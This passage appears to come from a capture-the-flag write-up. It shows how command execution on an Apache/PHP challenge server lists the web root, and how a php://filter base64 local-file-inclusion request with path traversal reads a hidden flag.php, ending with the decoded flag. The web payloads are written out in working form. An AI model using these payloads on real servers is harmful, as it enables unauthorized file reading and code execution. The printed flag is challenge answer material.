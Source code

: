 Let's now try to ls in the root of the apache server:
```
[...]
  &cmd=ls+-la+/var/www/html
```
<p><img src="src/flag1/rce_attempt_2.jpg" width="750"></p>

We got it, and there is a flag.php file that was hidden in play sight!

Let's get the flag:
```
view-source:http://[IP]/
  ?view=
    php://filter/read=convert.base64-encode/resource=teks/../flag
```
<p><img src="src/flag1/flag1.jpg" width="750"></p>

Decoding the base64 gives us the flag: `EPI{tH15_15_N0T_4_t3Kp3D490_Y0U_D1rty_h4Ck3R}`
